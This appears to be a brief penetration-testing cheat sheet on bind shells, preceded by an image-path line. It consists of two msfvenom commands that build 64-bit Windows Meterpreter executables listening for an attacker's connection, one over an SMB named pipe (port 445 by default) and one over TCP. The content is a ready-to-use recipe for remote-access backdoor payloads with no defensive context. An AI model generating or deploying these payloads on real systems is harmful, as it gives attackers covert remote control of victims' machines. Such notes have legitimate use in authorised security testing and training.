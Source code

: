 # Bind Shells

1. **x86-64 (64-bit) Payloads**

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter_bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x86-64.exe`

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f exe -o met-x86-64.exe`